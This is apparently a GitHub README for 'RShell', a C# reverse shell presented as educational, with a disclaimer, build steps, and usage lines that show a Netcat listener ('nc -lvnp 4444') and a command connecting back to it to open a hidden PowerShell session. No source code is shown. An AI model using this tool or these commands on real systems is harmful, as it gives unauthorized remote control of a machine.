 # RShell (C# Reverse Shell)

RShell is a simple reverse shell implementation written in **C#**.  
This project was created **strictly for educational purposes** to demonstrate concepts related to networking, process handling, and inter-process communication in .NET.  

---

## ⚠️ Disclaimer
This tool is intended **only** for:  
- Learning how reverse shells work internally  
- Ethical research and penetration testing in environments you are **authorized** to test  
- Academic or controlled lab demonstrations  

🚫 **Do not use this code for unauthorized access, malicious activity, or in any environment where you don’t have explicit permission.**  
The author is **not responsible** for any misuse of this software.  

---

## ✨ Features
- Written in **C# (.NET)**  
- Connects back to a specified IP and port  
- Redirects input/output between the attacker’s console and the target system’s PowerShell  
- Handles both standard output and error streams  
- Lightweight and minimalistic design  

---

## 🛠️ Compilation
You can compile the project using:

### Visual Studio
1. Open the solution in Visual Studio.  
2. Build the project (Debug/Release).  
3. The executable will be available in the `bin` folder.  

### Command Line (csc)
If you have the .NET SDK or C# compiler installed, run:  
```bash
csc Program.cs -out:RShell.exe
🚀 Usage
Run the executable with the following syntax:

bash
Copy code
RShell.exe <ip> <port>
Example:

bash
Copy code
RShell.exe 127.0.0.1 4444
🧪 Safe Testing Setup
To test this project safely in a controlled environment, follow these steps:

1. Set up a listener (attacker machine)
Use Netcat or a similar tool:

bash
Copy code
nc -lvnp 4444
This will listen for incoming connections on port 4444.

2. Run RShell on the target (lab machine)
On your test machine, execute:

bash
Copy code
RShell.exe 127.0.0.1 4444
If testing across two different systems, replace 127.0.0.1 with the IP address of your listener machine.

3. Interact with the shell
Once connected, you’ll have an interactive PowerShell session redirected through the TCP connection.
Type exit to terminate the session.

⚠️ Reminder: Always test only in isolated environments that you fully control (VMs, local lab setup).

⚙️ How It Works
The client connects to a specified IP/port.

It spawns a hidden PowerShell process.

Standard input/output and error streams are redirected via TCP.

Commands sent from the listener are executed on the target system.

Output is sent back over the same TCP connection.

📚 Educational Value
This project can help you learn about:

TCP client-server communication in C#

Working with StreamReader and StreamWriter

Process handling and I/O redirection in .NET

Event-driven programming with OutputDataReceived
